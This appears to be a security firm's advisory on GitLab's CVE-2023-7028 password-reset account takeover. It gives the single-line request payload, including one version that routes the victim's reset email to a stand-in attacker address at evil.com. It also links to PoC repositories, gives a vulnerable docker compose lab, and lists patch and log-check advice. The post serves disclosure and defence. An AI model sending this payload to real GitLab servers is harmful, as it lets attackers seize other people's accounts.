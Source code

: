 # How to compromise Gitlab accounts with CVE-2023-7028 vulnerability


# 😮 Publicly exposing GitLab in 2024: too risky?

<br>
<br>

Is exposing one's own GitLab a good security practice? Well, you will see that **it is not**.

2024 starts strongly, giving good reasons **not to expose this service on the Internet** (but rather to host it behind a VPN).

## A tense start to the year

On January 11, 2024, GitLab, the renowned community platform, released an important announcement concerning new versions 16.7.2, 16.6.4, and 16.5.6 for GitLab Community Edition (CE) and Enterprise Edition (EE).

Two vulnerabilities are explained:

1. The **CVE-2023-7028** vulnerability :
   - CVSS score of 10/10 😮
   - It allows account takeover via password reset without user interaction.

1. The **CVE-2023-5356** vulnerability : 
   - CVSS score of 9.6/10 😟
   - It allows a user to abuse Slack/Mattermost integrations to execute slash commands as another user.
  
## In brief

The most problematic vulnerability is the first one: **CVE-2023-7028**.

Far from harmless, it is very problematic:

- It allows resetting the password of any user.
- The vulnerability is exploitable without an account.
- The victim's email must be known.
- The payload consists of a single line: `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

The second vulnerability is just as serious but less easily exploitable.

## Exploitation

To exploit this vulnerability, the PoC is really very simple:


```sh
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` is the victim's address
- `attacker@email.com` is the attacker's address

GitLab creates confusion, allowing an attacker to overwrite the victim's email with their own 😮!

More specifically, a change was made in version 16.1.0 to allow users to reset their passwords using a secondary email address. The vulnerability results from a bug in the email verification process.

👉 More details on GitLab's blog: https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions

## Recommended actions

GitLab recommends the following actions:

1️⃣ **Immediate Update**: It is strongly advised to update GitLab to the latest patched version. For users who have not yet updated, GitLab recommends moving directly to versions 16.7.3, 16.6.5, 16.5.7 or later.

2️⃣ **Enable Two-Factor Authentication (2FA)**: GitLab advises activating 2FA for all accounts. This security measure prevents the exploitation of this vulnerability.

3️⃣ **Integrity Verification**: Self-managed clients are advised to examine their logs to detect any exploitation attempts of these vulnerabilities.

Example:

- Check the `gitlab-rails/production_json.log` file to ensure that no request pointing to the /users/password route contains **multiple email addresses**.
- Check the `gitlab-rails/audit_json.log` file to ensure that the meta.caller_id field of PasswordsController#create and target_details do not contain **multiple email addresses**.
  
## Automation

Many PoCs are available online to automate the exploitation of this vulnerability:

- Made by a talented French developer: https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028
  
## Vulnerable Docker

For the curious, below is a vulnerable docker compose to practice this vulnerability:

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

Available on Trackflaw's GitHub: https://github.com/Trackflaw/CVE-2023-7028-Docker

## Demonstration

A small demonstration below to present the exploitation of the vulnerability:

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls autoplay loop title="Exploiting GitLab with CVE-2023-7028 vulnerability" style="width:100%"></video>

🙏 Patch quickly. Trackflaw is here to help you with this task. Contact us at https://trackflaw.com or by email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions
